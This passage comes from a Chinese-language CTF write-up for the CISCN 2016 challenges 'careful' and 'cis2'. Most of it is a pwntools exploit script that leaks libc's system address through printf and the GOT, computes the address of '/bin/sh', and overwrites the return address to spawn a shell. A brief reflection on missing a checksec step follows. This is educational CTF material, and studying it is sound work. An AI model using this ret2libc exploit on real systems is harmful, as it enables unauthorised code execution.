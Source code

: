 ```
	"""
	# write print addr
	wdword(44,printf)
	wdword(48,popret)
	wdword(52,print_got)
	wdword(56,begin)
	# wdword(60,popret)
	# wdword(64,out)
	# wdword(68,begin)
	# gdb.attach(p,'b *0x8048604')
	end()

	recv=p.recv(4)

	sys_addr=u32(recv.ljust(4,'\x00'))
	print 'system addr: '+hex(sys_addr)
	sh_addr=sys_addr-0x4cbd0+0x15d1a9
	print '/bin/sh addr: '+hex(sh_addr)

	# gdb.attach(p,'b *0x08048604')
	p.sendline('28')
	p.recvuntil('value:')
        value='0A0A0A00'
        c=c_int32(int(value,16)).value
	p.sendline(str(c))

	wdword(44,system)
	wdword(52,hex(sh_addr)[2:])
	end()
	# gdb.attach(p,'b *0x8048604')
	p.interactive()
	"""
	wdword(44,system)
	wdword(52,sh)
	end()
	p.interactive()

main()


```

## Cis2

这道题最终还是本地成功远程失败，这次的原因还是too young......还是再记录一下吧。

可能是上一题折腾太久了，拿到这一题直接file看一眼strings一下就直接拖进IDA静态分析了，就是忘了例行看一下checksec和vmmap，也可能是因为这么长一段时间接触的就没有不开NX的吧，突然来个都没开NX的完全就不记得还有这茬了，看来还是修为不够。

实力懵逼：
![ciscnctf_2016_careful&cis2_writeup1.png][2]


[1]: /images/ciscnctf_2016_careful&amp;cis2_writeup0.png
[2]: /images/ciscnctf_2016_careful&amp;cis2_writeup1.png
[3]: /images/ciscnctf_2016_careful&amp;cis2_writeup2.png
[4]: /images/ciscnctf_2016_careful&amp;cis2_writeup3.png
[5]: /images/ciscnctf_2016_careful&amp;cis2_writeup4.png